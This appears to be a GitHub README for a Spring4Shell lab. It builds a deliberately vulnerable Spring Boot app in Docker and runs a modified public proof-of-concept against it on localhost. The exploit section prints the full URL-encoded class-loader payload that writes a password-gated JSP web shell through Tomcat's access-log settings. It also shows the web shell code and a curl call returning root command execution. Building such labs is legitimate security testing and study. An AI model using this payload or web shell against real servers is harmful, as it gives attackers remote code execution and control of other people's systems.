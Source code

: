 # Spring4Shell test

## Setup vulnerable application 

### Install openjdk >= 9

Install and setup on manjaro and archlinux
```bash
$ yay -S jdk11-openjdk
$ sudo archlinux-java set java-11-openjdk
```

### Quick steps:

To quickly setup the app, use the following commands (i.e: TL;DR):
```
$ cd demo
$ mvn package
$ cd ..
$ docker build -t eq/spring4shell ./
$ docker container run -it --publish 8080:8080 eq/spring4shell
```

All is ready... just use the `poc.py` now.

More details: 

### Build vuln application

These are the steps I followed to build the vuln app in this repo:

Go to https://start.spring.io/#!type=maven-project&language=java&platformVersion=2.6.5&packaging=jar&jvmVersion=11&groupId=com.example&artifactId=demo&name=demo&description=Demo%20project%20for%20Spring%20Boot&packageName=com.example.demo&dependencies=web,thymeleaf

Unzip the generated project

Since I like to know what I'm doing I followed the great tutorial at https://spring.io/guides/gs/handling-form-submission/

#### Build war file

Add war packaging info to `pom.xml` file:

```xml
	<groupId>com.example</groupId>
	<artifactId>demo</artifactId>
	<packaging>war</packaging>
	<version>0.0.1-SNAPSHOT</version>
	<name>demo</name>
	<description>Demo project for Spring Boot</description>
```

Add final name so that package will be named `demo.war`, in `pom.xml` under the `<build>` section
```xml
<build>
	<finalName>demo</finalName>
	[...]
</build>
```

run maven
```
$ cd demo
$ mvn clean package
```

which creates `demo/target/demo.war`

### Check for Spring in package

Confirm that an application uses spring framework
```
$ mkdir demo_src
$ mv demo/target/demo.war demo_src
$ cd demo_src
$ unzip demo.war
$ find . -name 'spring-beans-*.jar'  
./BOOT-INF/lib/spring-beans-5.3.17.jar
```

Apparently, people are saying that you can also check for the `CachedIntrospectionResults.class` file.

### Run and test the app:

Using the Dockerfile in this repo, simply run the following commands:

```bash
$ docker build -t eq/spring4shell ./
$ docker container run -it --publish 8080:8080 eq/spring4shell
```

#### App testing: 

```bash
$ curl -i http://127.0.0.1:8080/demo/greeting
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Transfer-Encoding: chunked
Date: Thu, 31 Mar 2022 10:43:48 GMT

<!DOCTYPE HTML>
<html>
<head> 
    <title>Getting Started: Handling Form Submission</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
	<h1>Form</h1>
    <form action="/greeting" method="post">
    	<p>Id: <input type="text" id="id" name="id" value="0" /></p>
        <p>Message: <input type="text" id="content" name="content" value="" /></p>
        <p><input type="submit" value="Submit" /> <input type="reset" value="Reset" /></p>
    </form>
</body>
</html>
$ # Testing the form:
$ curl -i http://127.0.0.1:8080/demo/greeting -d 'id=1&content=message_content'
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Transfer-Encoding: chunked
Date: Thu, 31 Mar 2022 10:44:41 GMT

<!DOCTYPE HTML>
<html>
<head> 
    <title>Getting Started: Handling Form Submission</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
	<h1>Result</h1>
    <p >id: 1</p>
    <p >content: message_content</p>
    <a href="/greeting">Submit another message</a>
</body>
</html>
```

## Testing the exploit:

Slightly modified PoC from: https://github.com/BobTheShoplifter/Spring4Shell-POC can be found in the `poc.py` file.

Modifications performed:
 - Change directory to `webapps/demo` to match the demo
 - Add debug prints


```bash
$ python poc.py --url http://127.0.0.1:8080/demo/greeting 
[+] Requesting url with content:
Headers: {'suffix': '%>//', 'c1': 'Runtime', 'c2': '<%', 'DNT': '1', 'Content-Type': 'application/x-www-form-urlencoded'}
Data: class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/demo&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
=======================================
[+] Checking shell properly uploaded at: http://127.0.0.1:8080/demo/tomcatwar.jsp
[+] Confirming shell at:http://127.0.0.1:8080/demo/tomcatwar.jsp?pwd=j&cmd=id
```

RCE result:
```bash
$ curl http://127.0.0.1:8080/demo/tomcatwar.jsp\?pwd\=j\&cmd\=id -o test
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2530    0  2530    0     0  36332      0 --:--:-- --:--:-- --:--:-- 36666
$ cat test 
uid=0(root) gid=0(root) groups=0(root)

//
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } -
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } -
```


